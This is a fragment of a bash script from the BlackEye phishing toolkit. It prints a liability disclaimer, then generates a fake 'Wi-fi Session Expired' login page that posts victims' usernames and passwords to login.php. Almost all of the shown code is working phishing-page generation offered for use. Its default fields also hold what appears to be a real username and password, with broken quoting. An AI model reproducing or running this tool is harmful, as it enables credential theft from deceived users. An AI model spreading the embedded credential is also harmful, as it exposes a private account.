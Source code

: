 }

banner() {


printf "     \e[101m\e[1;77m:: Disclaimer: Developers assume no liability and are not    ::\e[0m\n"
printf "     \e[101m\e[1;77m:: responsible for any misuse or damage caused by BlackEye.  ::\e[0m\n"
printf "     \e[101m\e[1;77m:: Only use for educational purporses!!                      ::\e[0m\n"
printf "\n"
printf "     \e[101m\e[1;77m::     BLACKEYE-IM! By @The-Burning                          ::\e[0m\n"
printf "\n"
}

createpage() {
default_cap1="Wi-fi Session Expired"
default_cap2="Please login again."
default_user_text="Username:"Maheswaran"
default_pass_text="Password:"BEASTMEN@#0"
default_sub_text="Log-In"

read -p $'\e[1;92m[\e[0m\e[1;77m*\e[0m\e[1;92m] Title 1 (Default: Wi-fi Session Expired): \e[0m' cap1
cap1="${cap1:-${default_cap1}}"

read -p $'\e[1;92m[\e[0m\e[1;77m*\e[0m\e[1;92m] Title 2 (Default: Please login again.): \e[0m' cap2
cap2="${cap2:-${default_cap2}}"

read -p $'\e[1;92m[\e[0m\e[1;77m*\e[0m\e[1;92m] Username field (Default: Username:): \e[0m' user_text
user_text="${user_text:-${default_user_text}}"

read -p $'\e[1;92m[\e[0m\e[1;77m*\e[0m\e[1;92m] Password field (Default: Password:): \e[0m' pass_text
pass_text="${pass_text:-${default_pass_text}}"

read -p $'\e[1;92m[\e[0m\e[1;77m*\e[0m\e[1;92m] Submit field (Default: Log-In): \e[0m' sub_text
sub_text="${sub_text:-${default_sub_text}}"

echo "<!DOCTYPE html>" > sites/create/login.html
echo "<html>" >> sites/create/login.html
echo "<body bgcolor=\"gray\" text=\"white\">" >> sites/create/login.html
IFS=$'\n'
printf '<center><h2> %s <br><br> %s </h2></center><center>\n' $cap1 $cap2 >> sites/create/login.html
IFS=$'\n'
printf '<form method="POST" action="login.php"><label>%s </label>\n' $user_text >> sites/create/login.html
IFS=$'\n'
printf '<input type="text" name="username" length=64>\n' >> sites/create/login.html
IFS=$'\n'
printf '<br><label>%s: </label>' $pass_text >> sites/create/login.html
IFS=$'\n'
printf '<input type="password" name="password" length=64><br><br>\n' >> sites/create/login.html
IFS=$'\n'
printf '<input value="%s" type="submit"></form>\n' $sub_text >> sites/create/login.html
printf '</center>' >> sites/create/login.html
printf '<body>\n' >> sites/create/login.html
printf '</html>\n' >> sites/create/login.html
